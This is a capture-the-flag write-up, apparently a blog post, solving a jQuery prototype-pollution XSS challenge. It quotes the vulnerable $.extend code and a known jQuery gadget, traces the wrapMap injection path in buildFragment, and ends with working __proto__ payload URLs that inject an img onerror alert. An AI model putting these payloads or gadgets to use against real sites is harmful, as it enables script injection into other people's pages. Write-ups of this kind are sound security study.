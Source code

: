 ```yaml
---
layout: post
title:  "alert 1337 - jquery prototype pollution"
---
```


# alert 1337 - jquery prototype pollution

challenge here 
https://msrkp.github.io/

code
```
<script src="https://code.jquery.com/jquery-1.12.4.js"></script>
<script>
	var HoF = {0:"@st98_",1: "@SecurityMB",3:"@0xParrot",4:"@pgt_r2ursystem",5:"You ?"};
	
	function escapeHTML(input){
		return input.replace(/</g,'&lt;').replace(/>/g,'&gt;')
	}
	var params = new URLSearchParams(window.location.search);
	var name = params.get('name');
	var paramsJson = $.extend(true, HoF, JSON.parse(name));
	$.each(paramsJson,function(key,value){
		$(`<li id='name'>${escapeHTML(value)}</li>`).appendTo('#HoF')
	});
</script>
```

The code is simple. `$.extend` is used. So there is prototype pollution. We need to use it.

First, I thought the challenge is to use pp to bypass `escapeHTML`. So I spend hours trying to figure out how do pp the function. But no luck. I even thought that I can use `}` to pair with the `${`.

After some rest. I checked this git. `https://github.com/BlackFan/client-side-prototype-pollution`

Here we can find many poc about pp. Since the code here is jQuery, I'll try to figure out how the payloads works.

I choose this one. `https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md`

```
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```
After debugging it, I know that we need to pp jquery functions. So my thoughts were wrong.
So I try to debug again. Line by line. Try to find out what to pp.

in function `buildFragment`,
```
} else {
				tmp = tmp || safe.appendChild( context.createElement( "div" ) );

				// Deserialize a standard representation
				tag = ( rtagName.exec( elem ) || [ "", "" ] )[ 1 ].toLowerCase();
				wrap = wrapMap[ tag ] || wrapMap._default;

				tmp.innerHTML = wrap[ 1 ] + jQuery.htmlPrefilter( elem ) + wrap[ 2 ];
```

We can pp wrapMap. So our evil code can be injected into tmp.
`tag` is `li`, `li` not in `wrapMap`. So after our pp, `wrapMap['li']` is what we control.
Then we can control `wrap[1]`. Then `tmp.innerHTML`. In the end, we get the alert.
```https://msrkp.github.io/?name={ %22__proto__%22:{ %22li%22:{ %221%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}```
And this one.
```https://msrkp.github.io/?name={ %22__proto__%22:{ %22li%22:{ %222%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}```
strip the space.


